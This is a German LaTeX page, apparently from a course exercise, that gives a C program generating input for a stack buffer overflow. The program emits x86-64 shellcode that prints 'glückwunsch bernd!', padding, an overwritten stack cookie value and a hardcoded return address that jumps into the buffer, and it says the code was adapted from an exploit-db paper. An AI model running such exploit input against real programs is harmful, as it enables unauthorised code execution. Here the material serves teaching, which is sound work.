 \documentclass[10pt,a4paper]{article}
\begin{document}
Unser input Programm dafür sieht folgendermaßen aus:
\begin{verbatim}
#include <stdio.h>

int main() {
   unsigned int i;
   //write our printing code
   printf("%c", 0xeb);
   printf("%c", 0x22);
   printf("%c", 0x48);
   printf("%c", 0x31);
   printf("%c", 0xc0);
   printf("%c", 0x48);
   printf("%c", 0x31);
   printf("%c", 0xff);
   printf("%c", 0x48);
   printf("%c", 0x31);
   printf("%c", 0xd2);
   printf("%c", 0x48);
   printf("%c", 0xff);
   printf("%c", 0xc0);
   printf("%c", 0x48);
   printf("%c", 0xff);
   printf("%c", 0xc7);
   printf("%c", 0x5e);
   printf("%c", 0x48);
   printf("%c", 0x83);
   printf("%c", 0xc2);
   printf("%c", 0x13);//number of chars for the output
   printf("%c", 0x0f);
   printf("%c", 0x05);
   printf("%c", 0x48);
   printf("%c", 0x31);
   printf("%c", 0xc0);
   printf("%c", 0x48);
   printf("%c", 0x83);
   printf("%c", 0xc0);
   printf("%c", 0x3c);
   printf("%c", 0x48);
   printf("%c", 0x31);
   printf("%c", 0xff);
   printf("%c", 0x0f);
   printf("%c", 0x05);
   printf("%c", 0xe8);
   printf("%c", 0xd9);
   printf("%c", 0xff);
   printf("%c", 0xff);
   printf("%c", 0xff);
   //write our text after the code for execution
   printf("glückwunsch bernd!");
   //fill the rest of the buffer until cookie
   for(i = 0; i < 108 - 60; i++){	//allready 59 chars for the program + output
      printf("%c", 0);
   }
   //fill the cookie variable
   printf("dbcg");
   //print some unneeded data as offset to the jump adress
   for(i = 0; i < 8; i++){
      printf("%c", 0);
   }
   //print the correct adress for the jump (which is the value of the buffer adress printed by the program)
   printf("%c%c%c%c", 0x7fffffffe7d0 & 0xFF, (0x7fffffffe7d0 & 0xFF00) >> 8, (0x7fffffffe7d0 & 0xFF0000) >> 16, (0x7fffffffe7d0 & 0xFF000000) >> 24);
   printf("%c%c%c%c", (0x7fffffffe7d0 & 0xFF00000000) >> 32, (0x7fffffffe7d0 & 0xFF0000000000) >> 40, (0x7fffffffe7d0 & 0xFF000000000000) >> 48, (0x7fffffffe7d0 & 0xFF00000000000000) >> 56);

   return 0;
}
\end{verbatim}

Unser Programm code stammt von http://www.exploit-db.com/papers/24085/ und wurde an unsere Bedürfnisse entsprechend angepasst.
\end{document}
